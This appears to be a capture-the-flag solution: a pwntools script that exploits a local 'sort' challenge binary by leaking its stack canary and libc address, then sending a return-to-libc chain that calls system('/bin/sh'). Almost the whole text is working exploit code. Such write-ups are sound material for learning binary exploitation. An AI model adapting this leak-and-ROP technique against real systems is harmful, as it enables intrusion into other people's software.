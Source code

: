 ![image-20220108225225942](/assets/img/2022/image-20220108225225942.png)

exp:

```python
from pwn import *


r = process('./sort', env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF('./libc-2.27.so')
# context.log_level="debug"
# pause()

r.recvuntil("(1~10000):")
size = (0x138A0/8+2)
r.sendline(str(size))
r.recvuntil('array:\n')
for i in range(size):
    if i < (size-3):
        r.sendline(str(0))
    else:
        r.sendline(str(-1))
r.recvuntil('result\n')
arr = r.recvline().split(' ')
print(arr[-5:])
canary = int(arr[-2])
libc_start_main = int(arr[-3]) - 231
libc_start_main_offset = libc.symbols['__libc_start_main']
libc_base = libc_start_main - libc_start_main_offset
# pause()
# print(hex(canary))
r.recvuntil('name:')

pop_rdi = 0x000000000002155f # pop rdi ; ret
ret = 0x00000000000008aa # ret
sh = 0x00000000001b3e9a # /bin/sh
system_libc_offset = libc.symbols['system']

p = 'a'*(8*3) + p64(canary) + 'a'*8
p += p64(libc_base + pop_rdi)
p += p64(libc_base + sh)
p += p64(libc_base + ret)
p += p64(libc_base + system_libc_offset)
# one_gadget
# p += p64(libc_base + 0x4f322)

r.send(p)

r.interactive()
```



